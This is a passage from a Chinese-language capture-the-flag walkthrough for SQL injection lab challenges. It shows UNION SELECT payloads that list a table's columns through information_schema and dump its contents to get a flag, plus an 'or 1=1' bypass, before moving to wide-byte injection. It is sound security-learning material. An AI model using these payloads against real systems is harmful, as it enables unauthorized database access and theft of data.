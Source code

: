 5.  查出后台数据库表的列名(`union select 1,2,(select group_concat(column_name) from information_schema.columns where table_name='sae_user_sqli3')`)，结果为“**id,title,content**”：![在这里插入图片描述](img/4bed56d352c8f6d1160c2d36de69e0ec.png)
6.  查出表中列的数值(`union select 1,2,(select group_concat(content) from sae_user_sqli3)`)，得出结果如下(**成功获得flag**)：![在这里插入图片描述](img/670876dd8ff7f3463efb608531bb59cd.png)

【注意】此题有一步到位的PayLoad：`?id=1 or 1=1`(万能密码）：
![在这里插入图片描述](img/588143f1d0a29b0b7e8ca1629bfa900a.png)

# 宽字节注入

【第3题】[通关地址](http://lab1.xseclab.com/sqli4_9b5a929e00e122784e44eddf2b6aa1a0/index.php)
